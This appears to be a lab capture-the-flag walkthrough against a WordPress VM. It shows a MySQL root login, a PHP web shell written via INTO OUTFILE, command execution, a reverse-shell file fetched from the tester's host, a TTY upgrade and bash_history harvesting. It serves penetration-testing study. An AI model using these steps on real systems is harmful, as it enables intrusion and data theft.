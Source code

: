 
Connecting to MySQL Server

    mysql -u root -p -h 192.168.65.108

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550885934941_image.png)


*We are in!*

Creating a Web-shell via MySQL (one-liner)

    select "<?php passthru($_GET['cmd']); ?>" into outfile '/var/www/https/blogblog/wp-content/uploads/sh.php';

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550886081684_image.png)


*Bingo-bango lets see if we can execute commands on system.*


# RCE

Remote code execution via PHP web-sell.

    https://$192.168.56.108:12380/blogblog/wp-content/uploads/sh.php?cmd=uname+-a

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942451599_image.png)


*we can now execute commands on the box via this* `*sh.php?cmd=*`

Reverse Shell Upload via SimpleHTTPServer

    wget http://192.168.56.102:8000/shell.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942635548_image.png)


*Successful reverse shell connection established. Now we need to upgrade this partial shell to a full shell.*

Upgrade Partial Shell to full TTY

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_76797E604891265321AD78406C25717C0243B1333518E367CE44F55330F7F258_1550942820453_image.png)


*Upgraded!*


Created a small script that parses through the entire home directory users for .bash_history

    find /home/ -maxdepth 2 -iname ".bash_history" -type f \;
         -exec sh -c "echo {} >> bh.txt && cat {} >> bh.txt" \; | cat bh.txt
